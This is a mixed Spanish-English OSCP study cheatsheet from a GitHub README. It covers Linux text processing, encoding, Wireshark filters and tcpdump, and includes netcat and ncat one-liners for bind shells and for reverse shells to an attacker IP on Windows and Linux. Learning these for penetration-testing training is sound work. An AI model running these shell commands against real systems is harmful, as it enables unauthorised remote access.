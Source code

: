 # OSCP_Command_Cheatsheet

## Misc Commands from Linux


Extract file
```
gunzip acces.log.gz
tar -xzvf file.tar.gz
```

Search for a string in command history

```history | grep frase_a_buscar```

Count lines
```	wc -l index.html ```


[comment]: # Visualizar el principio/fin de un fichero	
```head/tail index.html```
[comment]: # Extraer todas las líneas que tienen una string 	
```grep "href=" index.html```
Cortar una string por un delimitador, filtrar los resultados con grep y ordenarlos	grep "href=" index.html | cut -d "/" -f 3 | grep "\\." | cut -d '"' -f 1 | sort -u
Mostrar el contenido de un fichero usando grep y REGEX para filtrar 	cat index.html | grep -o 'http://\[^"\]\*' | cut -d "/" -f 3 | sort –u > list.txt
Ordenar por frecuencia y mostrar todas las IP's presentes en un fichero LOG	cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn
Sustituir una determinada cadena por otra	cat algo.txt | awk '{sub(/<cadena_a_sustituir>/,<cadena_a_introducir>);print}' 
Eliminar columna de un fichero de texto delimitada por un separador	cat algo.txt | awk -F: '{print $1":"$3}'
Descodificar desde base64	echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode
Cdificar a base64	echo -n "algo" | base64
Descodificar desde HEX	echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps
Conectarse a otro puerto en otro host	nc -nv <ip_address> 110
Poner puerto a la escucha	nc -nlvp 4444
Enviar un fichero usando netcat	nc -nv <ip_address> 444 < /usr/share/windows/nc.exe
Recibir fichero con netcat	nc -lvpn 4444 > incoming_file.exe
Bind Shell con netcat en windows	nc.exe -nlvp 3344 -e cmd.exe
Reverse shell con netcat en windows	nc.exe -nv <attacker_IP_address> <PORT> -e cmd.exe
Bind Shell con netcat en linux	nc.exe -nlvp 3344 -e /bin/bash
Reverse shell con netcat en linux	nc -nv <attacker_ip_address> 44444 -e /bin/bash
Bind shell from windows	ncat --exec cmd.exe --allow <attacker_ip> -vnl 4444 --ssl
Listen oin port 444 using ssl	ncat -v <attacker_ip_Address> 444 --ssl
Filtro para mostrar trafico en puerto SMTP (25) y ICMP	tcp.port eq 25 or icmp
Mostrar solo tráfico LAN (sin salida a Internet)	ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16
Filtrar por protocolo (ejemplo SIP) y eliminar tráfico de IP's no deseadas	ip.src !=xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip
Mostrar un ficher pcap	tcpdump -r passwordz.pcap
Mostrar solo IP's y ordenarlas	tcpdump -n -r passwordz.pcap | awk -F" " '{print $3}' | sort -u | head
Capturar paquetes en el puerto 80	tcpdump tcp port 80 -w output.pcap -i eth0
![image](https://github.com/0xCOrS/OSCP_Command_Cheatsheet/assets/97627828/405424dd-fdf5-430e-a4d0-1f9da129ecc7)
